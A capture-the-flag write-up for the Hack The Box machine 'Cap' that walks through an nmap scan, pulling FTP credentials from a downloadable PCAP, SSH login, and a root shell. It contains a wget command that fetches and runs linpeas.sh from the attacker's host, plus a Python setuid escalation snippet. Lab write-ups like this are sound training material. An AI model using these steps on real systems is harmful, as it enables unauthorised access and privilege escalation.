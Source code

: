 # HTB - Cap

**IP Address:** `10.10.10.245`  
**OS:** Ubuntu 20.04  
**Difficulty:** Easy  
**Tags:** #FTP, #PCAP, #Wireshark, #SSH, #LinPEAS, #SUID, #Python

---
## 1. Port Scanning

### 1.1 Nmap Scan

```bash
# Command
nmap -sV -sC 10.10.10.245
```

``` bash
# Output
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-23 19:38 UTC
Nmap scan report for 10.10.10.245
Host is up (0.036s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)                                                                        
| ssh-hostkey:                                                                   
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)                   
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)                  
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                      
Nmap done: 1 IP address (1 host up) scanned in 10.75 seconds
```

---
## 2. Web Enumeration

Navigating to `http://10.10.10.245` opens a "Security Dashboard" already logged in as `Nathan`. 

![Main Dashboard](website_with_lateral_menu.png)

Clicking **Security Snapshot** changes the URL to `/capture/data/0`.

![Main Dashboard](dashboard_security_snapshot.png)

```text
/capture/data/0 → contains downloadable PCAP data
```

⬇️ Downloaded the `.pcap` file and opened it with **Wireshark**.

Filtered traffic by protocol **FTP** and discovered:

![Main Dashboard](wireshark.png)

```text
Username: nathan
Password: Buck3tH4TF0RM3!
```

---
## 3. SSH Access

Used the recovered credentials:

```bash
ssh nathan@10.10.10.245
```

✅ SSH login successful  
🏁 **User flag retrieved from Nathan's home directory**

---
## 4. Privilege Escalation

### 4.1 Hosting linPEAS Locally

Started a local web server:

```bash
python3 -m http.server 8080
```

On victim machine, downloaded **linpeas.sh**:

```bash
wget http://10.10.14.105:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![Main Dashboard](nathan_user.png)

---
### 4.2 Root via Python SUID Abuse

`linpeas.sh` showed a possible misconfigured **SUID bit on Python3**.

On the victim:

```python
import os
os.setuid(0)
os.system("/bin/bash")
```

![Main Dashboard](escalation.png)

✅ Spawned a root shell  
🏁 **Root flag retrieved from `/root`**

---
# ✅ MACHINE COMPLETE
